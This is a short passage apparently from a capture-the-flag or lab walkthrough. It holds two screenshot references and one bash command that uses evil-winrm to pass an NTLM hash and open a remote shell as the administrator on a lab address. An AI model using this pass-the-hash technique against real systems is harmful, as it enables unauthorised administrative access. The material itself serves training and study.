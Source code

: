 ![image87](../resources/b5a189d16f0244c9847693fd9a4f14c7.png)

```bash
evil-winrm -u Administrateur -H "584d96946e4ad1ddfa4f8d7938faf91d" -i 10.129.242.35

```

![image88](../resources/60abf6af2a5b4829896c1639b1f5e677.png)